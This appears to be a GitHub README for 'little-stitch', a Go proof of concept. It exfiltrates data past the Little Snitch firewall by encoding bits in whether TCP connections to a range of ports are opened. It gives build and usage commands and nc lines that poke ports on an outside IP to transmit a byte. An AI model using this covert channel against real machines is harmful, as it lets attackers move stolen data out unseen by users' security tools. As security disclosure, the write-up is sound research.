 # little-stitch
Send and receive bypassing Little Snitch alerting.


## Stitch Face

Stitch face, the little stitch mascot.

![Stitch Face, the Little Stitch mascot](https://i.ytimg.com/vi/Oq5u07Rs9Ac/maxresdefault.jpg)

## Demo

https://user-images.githubusercontent.com/4079939/139521096-1f6fdb8d-cf20-489a-820f-ecdb980fc289.mov

## Usage

### Build

Make sure a recent version of GoLang is installed and set up (tested with golang 1.17.2).

```
go build -o little-stitch main.go
```


### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | ./little-stitch server
```

### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | ./little-stitch client <server ip address>
```

## Underlying Issue

Little Snitch does not actually trigger an alert when a TCP connection is established but instead is triggered
when application data is sent across the connection. So if you set up a TCP connection and immediately close it,
before sending any data across it, an alert will not be triggered by Little Snitch.

You can test this without installing anything on your computer with the nc command.

```
% nc -G 2 -vz 1.1.1.1 80
Connection to 1.1.1.1 port 80 [tcp/http] succeeded!
% nc -G 2 -vz 1.1.1.1 81
nc: connectx to 1.1.1.1 port 81 (tcp) failed: Operation timed out
```

While we aren't sending any data across the connection, this behavior alone is enough to enable two-way
communications between a server and a client running behind Little Snitch without being detected.

## Implementation Details

For exfiling data to an attacker-controlled server, instead of sending data across the TCP connection as
application data we want to encode our data, into attributes of the connection which are settable by an
underprivileged user client-side, and will be readable on the same connection server-side.

There are several attributes of a TCP connection that fill these requirements, however the most
straightforward is the destination port number, and whether a connection is opened or not. If we
are trying to send a byte at a time to the server we can use a range of 8 destination ports each
representing a bit in the current byte. We can then have an initiated connection represent a one while
doing nothing represents a zero, so essentially whether a connection is opened or not in the current
cycle represents a single bit. Once we have made all the connections needed we can then send a connection
to a ninth port, indicating to the server the current cycle is complete.

We can run through this manually to get a better idea of what is happening here by just running the server-side
of the connection and using `nc` to open the connections which will set (poke) the bits on the server.

```
./little-stitch server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (assuming you are using a little-endian
system) bits 1 and 7 are set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100
to flush the byte to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ ./little-stitch
A
```

Sending data the other direction isn't as simple since we can't send data directly from the server to the client, which will
most likely be on a network restricted with NAT. So instead of poking ports when we need to represent the value of a
given bit, we'll instead open the ports on the server corresponding to the set bits of the current byte. The client can
then iterate over these ports and record whether they were opened or closed to determine the value of the current byte.
In the demo we can see that this is slower than sending data to the server, this is because the client has more ports
overall to check (currently this is unoptimized, and closing the connection eats up a fair amount of time) and because
the server and the client need to be more careful about remaining in sync during this process.
